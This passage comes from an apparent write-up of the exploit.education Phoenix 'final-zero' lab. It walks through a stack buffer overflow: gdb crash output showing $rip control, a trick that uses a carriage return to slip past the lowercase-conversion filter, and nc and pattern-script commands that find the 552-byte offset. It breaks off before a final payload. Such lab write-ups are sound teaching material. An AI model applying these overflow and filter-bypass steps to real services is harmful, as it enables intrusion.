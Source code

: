 ```
──────────────────────────────────────────────────────────────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x4141414141414141
──────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "final-zero", stopped, reason: SIGSEGV
```

Bingo! We control `$rbx`, `$rbp` and most importantly `$rip` ("AAAAAAAA"). Now it's just a matter of finding the right offsets and constructing a suitable payload.

The main challenge in creating the payload is the list of forbidden characters. I spend an embarrassingly long time on trying to create a payload without any lowercase characters. You can for example use `msfvenom` or the encoders in the `pwnlib` library (see [here](http://docs.pwntools.com/en/stable/encoders.html)). But nothing I tried worked for the large number of excluded bytes. Then it hit me:

```C
/* Strip off trailing new line characters */
q = strchr(buffer, '\n');
if (q) *q = 0;
q = strchr(buffer, '\r');
if (q) *q = 0;

/* Convert to lower case */
for (i = 0; i < strlen(buffer); i++) {
```

The "convert to lower case" loop runs for `strlen(buffer)` iterations. `strlen` counts the number of bytes in `buffer` until the first `\0` byte it encounters. Before the loop, newline characters are converted to NULL BYTES! So that means that we don't need to worry about removing lowercase characters from our payload as long as we start with a newline! There's one catch, `gets` ends reading input if it encouters `\n`, but we can just send a single `\r` byte instead. Let's confirm this theory. We'll send a payload with lowercase `a` characters. If it segfaults and `$rip` is `aaaaaaaa` we win:

```
user@phoenix-amd64:~$ python -c 'print("hello\r" + "a"*600)' | nc 127.0.0.1 64003

# gdb
Program terminated with signal SIGSEGV, Segmentation fault.
$rip   : 0x6161616161616161 ("aaaaaaaa"?)
```

Nice, let's create an exploit!

First, we need to find the offset to overwriting `$rip`. For this we'll use the excellent [exploit-pattern script](https://github.com/Svenito/exploit-pattern/blob/master/pattern.py):

```
user@phoenix-amd64:~$ wget https://raw.githubusercontent.com/Svenito/exploit-pattern/master/pattern.py
user@phoenix-amd64:~$ python pattern.py 600 | nc 127.0.0.1 64003
Welcome to phoenix/final-zero, brought to you by https://exploit.education
^C

# in gdb as root
$rip   : 0x7341357341347341 ("As4As5As"?)

user@phoenix-amd64:~$ python pattern.py As4As5As
Pattern As4As5As first occurrence at position 552 in pattern.
```
